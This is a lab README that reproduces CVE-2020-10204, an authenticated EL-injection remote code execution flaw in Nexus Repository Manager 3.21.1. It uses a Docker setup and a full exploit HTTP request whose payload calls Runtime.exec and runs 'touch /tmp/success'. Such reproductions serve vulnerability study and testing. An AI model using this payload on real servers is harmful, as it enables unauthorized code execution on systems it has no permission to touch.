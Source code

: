 # Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10204)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with an administrative account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository. This issue is patch bypass of CVE-2018-16621.

References:

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with administrator account `admin:admin` and finish the initialize wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/extdirect HTTP/1.1
Host: your-ip
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[session-id]
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

As you can see, EL expression `233*233` is executed:

![](1.png)

Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`:

![](2.png)
